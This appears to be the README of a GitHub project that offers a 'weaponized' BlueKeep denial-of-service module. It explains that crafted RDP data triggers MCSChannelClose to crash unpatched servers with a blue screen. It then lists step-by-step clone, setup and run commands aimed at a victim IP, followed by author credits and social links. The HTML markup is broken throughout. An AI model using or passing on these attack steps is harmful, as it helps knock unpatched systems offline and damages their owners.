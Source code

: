# D0S-81U3K33P
<p><b>
  This is a weaponized Bluekeep module, that will cause an unpatched server , to crash or worse , Cause a BSOD. 
  his module works by sending crafted data required to trigger the call to MCSChannelClose.
  This causes prematurely closing an internal channel, which results in a BSOD on the victim machine.
  
</p></b>

<p><b>
Installation instructions : 
  
  <p><b>git clone https://github.com/TheEyeOfCyber/D0S-81U3K33P</p></b>
  <p><b>cd D0S-81U3K33P</p></b>
  <p><b>chmod +x setup.sh</p></b>
  <p><b>./setup.sh    # to clone the impackets module </p></b>
  <p><b>8sod3x910i7.py "IP" 64</p></b>
  <p><b>or</p></b>
  <p><b>python 8sod3x910i7.py "IP" 32 </p></b>
  <p><b>depending on the victim machine architecture </p></b>
  
  
</p></b>

<p><b>#Author :#Humayun Ali Khan #Mammona Aslam</p></b>

<p>
  <p><b>Youtube: <a href= "https://www.youtube.com/c/theeyeofcyberbuckeyesecurityofficial" rel="nofollow"></p></b>
   <p><b>Fb Group: <a href= "https://www.facebook.com/groups/theeyeofcyberbuckeyesecurtiy/?ref=share" rel="nofollow"></p></b>
     </a>
     </a>
</p>

